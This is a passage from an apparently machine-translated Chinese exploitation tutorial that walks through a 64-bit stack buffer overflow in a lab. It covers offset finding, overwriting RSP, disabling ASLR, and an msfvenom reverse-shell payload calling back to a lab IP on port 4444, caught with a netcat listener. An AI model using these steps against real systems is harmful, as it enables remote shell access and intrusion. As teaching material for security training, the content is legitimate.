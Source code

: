 ![](assets/be6e3c5f-0ba1-4c2e-b860-065a20121d5e.png)

现在，此时，寄存器 RSP 的内容是`0x6f41316f`，它是十六进制的。ASCII 等价物为`o1Ao`。

由于寄存器 RSP 的内容是小端格式，我们实际上需要将`0x6f31416f`转换为其 ASCII 等价物。必须注意的是，IBM 的 370 台大型机、大多数基于[RISC](https://search400.techtarget.com/definition/RISC)的计算机和摩托罗拉微处理器都使用大端方法。另一方面，英特尔[处理器](https://whatis.techtarget.com/definition/processor)s（CPU）DEC Alpha 和至少一些在其上运行的程序是 little endian

我们将再次使用 Metasploit Ruby 模块获取该唯一值的偏移量，以找到有效负载的确切位置。在此之后，我们应该放置跳转指令，使 RSP 跳转到我们选择的位置：

![](assets/1a1b3edf-db63-4d94-a537-46e7e3849b43.png)

因此，我们知道在地址`424`之后写入的任何内容的下八个字节都将写入我们的 rsp 寄存器。让我们试着写下`bbbb`，看看情况是否如此。我们生成的有效载荷如下：`424*a + 4*b + 72*c`。要使用的确切命令如下所示：

```
python -c "print 'A'*424+ 'b'*4 + 'C'*72" > abc
```

现在，我们已经验证了我们可以控制寄存器 RSP，让我们尝试攻击 r9 寄存器，以保存 shell 代码。但在此之前，我们必须知道 r9 寄存器的位置。在下面的屏幕截图中，我们可以看到 r9 寄存器的内存位置为`0x7fffffffded0`，但每次程序重新加载时，该位置都会不断变化：

![](assets/858efe7d-0f3e-47f7-8aae-6487e4ed1e46.png)

有两种方法可以解决这个问题。第一种方法是通过在操作系统级别禁用动态地址更改来避免动态地址更改，这可以在下面的屏幕截图中看到。另一种方法是找到具有`jmp r9`命令**的任何指令的地址。**我们可以在程序的整个汇编代码中搜索`jmp r9`，然后将该位置的地址放在寄存器 RSP 中，从而避免动态地址更改。我将把它作为一个练习留给你自己去理解和做。对于本节，让我们通过执行以下命令禁用动态地址加载：

![](assets/f236b2f1-2a66-4009-8a3b-4b4158a2a706.png)

现在，由于我们在一台 Kali 机器上工作，让我们生成一个反向外壳有效载荷，该载荷将放在我们的最终攻击代码中：

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.250.147 LPORT=4444  -e x64/xor ‐b "\x00\x0a\x0d\x20" -f py
```

为了找出被测试底层软件的常见错误特征，最成功的方法是反复试验。我通常要做的是找出常见的坏字符，将所有唯一字符发送到应用程序，然后使用调试器，检查在寄存器级别更改了哪些字符。那些被改变的可以被编码和避免。

前面的命令将生成以下屏幕截图：

![](assets/7cb23632-599f-497d-8950-83e4e61d739f.png)

让我们创建一个名为`exp_buf.py`的 Python 文件，并将获得的 shell 代码放在该文件中。必须注意的是，由于我们正在对有效负载进行编码，我们还需要在开始时使用几个字节来解码，因此我们将在开始时指定几个`nop`字符。我们还将在端口`4444`上设置一个 netcat 侦听器，以查看是否从应用程序中获得一个反向 shell。记住 r9 寄存器的地址；我们也将利用这一点：

![](assets/7977e329-ec66-4112-a0ff-edd3d041a37b.png)

前面的 Python 代码通过穿透我们创建的易受攻击的缓冲区溢出代码，打印出获得反向 shell 所需的有效负载。让我们把这个有效载荷输入到一个名为`buf_exp`的文件中，我们将与`edb`一起使用该文件来利用代码。键入以下命令以运行代码：

```
python exp_buf.py > exp_buf
```

现在，让我们在端口 4444 上设置一个 netcat 侦听器，它将侦听反向负载，这将反过来为我们提供 shell：

```
nc -nlvp 4444 
```

